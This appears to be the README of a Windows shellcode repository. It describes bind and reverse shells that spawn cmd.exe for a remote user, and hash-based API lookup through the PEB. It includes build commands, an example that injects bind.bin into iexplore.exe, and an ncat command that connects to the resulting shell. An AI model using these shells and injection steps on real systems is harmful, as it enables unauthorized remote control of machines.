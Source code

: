 
## About ##

These are a collection of *Position Independent Code* (PIC) for Windows, tested on Windows NT released in 1996 up to Windows 10 released in 2015.

## Multimode codes ##

* **bind**

Bind to network address and port using **bind()** API. Upon incoming connection, spawn cmd prompt for remote user to interact with. 

* **connect**

Connect to a remote network address and port using **connect()** API. Upon connection, spawn cmd prompt for remote user to interact with.

# Files

* **getapi.c**

Obtains a list of DLLs (Dynamic Link Library) from the Process Environment Block (PEB) and attempts to search either the export or import directories for API based on hash.

* **x86.asm**

x86 assembly code to search PEB, import and export directories for API to link with getapi.c

* **x64.asm**

x64 assembly code to search PEB, import and export directories for API to link with getapi.c

* **x84.asm**

Multimode assembly which can run in either x86 or x64 mode to search PEB and export directories for API to link with getapi.c 

Currently, searching import directory is not implemented. 

* **reverse.asm**

Demonstrates multimode assembly to perform an outbound connection to remote host before executing cmd.exe for user interaction.

* **bind.asm**

Demonstrates multimode assembly to accept an inbound connection from remote host before executing cmd.exe for user interaction.

## Building ##

In the getapi folder is source code in C containing functions to search the import and export directories of a Portable Executable to resolve API addresses.

By default, getapi.c will search the export table but if you compile with IMPORT defined, getapi will search import tables instead.

To test out out, compile getapi.c using mingw or msvc

	gcc -DTEST getapi.c -ogetapi
    cl /DTEST getapi.c
 	
To use the multimode assembly that will run with either x86 or x86-64 mode, use YASM or NASM.
	
* **32-bit PE**

	<pre>yasm -fwin32 x84.asm -ox84.obj 
	cl /DTEST /DASM getapi.c x84.obj</pre> 

* **64-bit PE+**
 
	<pre>yasm -fwin64 x84.asm -ox84.obj
	cl /DTEST /DASM getapi.c x84.obj</pre>

## Testing getapi ##

After you've compiled EXE, simply provide the name of a DLL which exports API you need address for and the API name itself. 

getapi function will attempt to find the address of API based on CRC-32C hash.

	usage: getapi <DLL> <API>

The following screenshots are the bind shell running inside notepad launched from pi (Process Injector)

## Testing bind ##

For this, you need to use the process injector included or some other tool capable of the same.

For example, the following will inject bind.bin into 64-bit process of Internet Explorer.

	pi -fbind.bin iexplore.exe -x32

If successfully executed, cmd.exe will execute once you connect to the host on port 1234 using netcat, ncat or something similar.

	ncat -v4 localhost 1234

The following are screenshots of some legacy systems running the bind assembly code. 

## Windows NT ##

![alt text](https://github.com/odzhan/shellcode/blob/master/win/ss/winnt.png)

## Windows 2000 ##

![alt text](https://github.com/odzhan/shellcode/blob/master/win/ss/win2k.png)

## Windows XP ##

![alt text](https://github.com/odzhan/shellcode/blob/master/win/ss/winxp.png)
